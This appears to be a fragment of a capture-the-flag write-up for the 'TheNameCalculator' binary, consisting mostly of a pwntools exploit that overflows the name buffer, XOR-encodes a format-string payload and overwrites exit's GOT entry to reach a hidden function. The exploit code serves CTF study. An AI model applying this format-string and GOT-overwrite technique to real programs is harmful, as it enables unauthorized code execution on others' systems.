 ```python
def encrypt(enc):
    buf = list(enc)
    for i in range(0, len(buf) - 4):
        payload = ''.join(buf[i:i+4])
        key = u32(payload)^0x5F7B4153
        buf[i:i+4] = list(p32(key))
    return ''.join(buf)
```



EXP

```python
from pwn import*
context(os='linux',arch='i386')#,log_level='debug')
n = process('./TheNameCalculator')
#n = remote('chal.noxale.com', 5678)
elf = ELF('./TheNameCalculator')

exit_got = elf.got['exit']
superSecretFunc_addr = 0x08048596
name = 'a'*(0x2c-0x10)+p32(0x6A4B825)

def encrypt(enc):
    buf = list(enc)
    for i in range(0, len(buf) - 4):
        payload = ''.join(buf[i:i+4])
        key = u32(payload)^0x5F7B4153
        buf[i:i+4] = list(p32(key))
    return ''.join(buf)

def check_name():
    n.recvuntil('name?\n')
    n.send(name)

def secretFunc(payload):
    n.recvuntil('please')
    n.send(encrypt(payload))

check_name()

payload = fmtstr_payload(12,{exit_got:superSecretFunc_addr},write_size='short')[0:21]
offset = 'aaaa%12$x'

secretFunc(payload)

n.interactive()
```



FLAG
